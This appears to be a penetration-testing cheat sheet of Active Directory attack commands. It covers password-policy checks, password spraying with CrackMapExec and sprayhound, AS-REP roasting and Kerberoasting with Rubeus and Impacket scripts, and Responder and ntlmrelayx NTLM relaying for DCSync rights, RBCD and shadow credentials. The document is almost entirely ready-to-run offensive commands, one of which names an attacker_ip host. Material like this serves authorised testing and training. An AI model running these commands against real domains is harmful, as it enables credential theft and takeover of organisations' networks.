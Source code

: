 # Valid Username

## Password Spray
*Check password policy before you do any spraying!!*

```bash
cme <IP> -u 'user' -p 'password' --pass-pol
enum4linx -u 'username' -p 'password' -P <IP>
Get-ADDefaultDomainPasswordPolicy
Get-ADFineGrainedPasswordPolicy -filter *
Get-ADUserResultantPasswordPolicy -Identity <user>
ldapsearch-ad.py --server '<dc>' -d <domain> -u <user> -p <pass> --type pass-pols
```
```bash
cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # test user=password
cme smb <dc-ip> -u user.txt -p password.txt # multiple test (careful of lock policy)
sprayhound -U <users.txt> -d <domain> -dc <dcip>
```

## ASREPRoast
Needs creds:
```powershell
Get-DomainUser -PreauthNotRequired -Properties SamAccountName
MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
Rubeus.exe asreproast /format:hashcat
```
```bash
python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>
```
```bash
impacket-GetNPUsers -dc-ip dc.absolute.htb -usersfile valid_users absolute.htb/

```
## Kerberoasting
```bash
Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>
GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/"user"
GetUserSPNs.py -request -dc-ip "<dc_ip>" "<domain>"/"<user>" -outputfile "kerberoasted"
```
# MITM

## Responder
```bash
responder -I eth0 (use --lm to force lm downgrade)
smbclient.py
```
## NTLM Relay
```bash
relay on self:
use exploit/windows/smb/smb_relay #windows200 / windows server2008

smb -> LDAP
ntlmrelayx.py --remove-mic --escalate-user <user> -t ldap://<dc_fqdn> -smb2support   #DcSync
ntlmrelayx.py -t ldaps://<dc> --remove-mic --add-computer <computer_name> <computer_password> --delegate-access -smb2support   #RBCD
ntlmrelayx -t ldap://<dc> --shadow-credentials --shadow-target '<dc>'  #Shadow Credentials https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials
ntlmrelayx.py  -wh <attacker_ip> -t ldap://<target> -l /tmp -6 -debug   #Users
```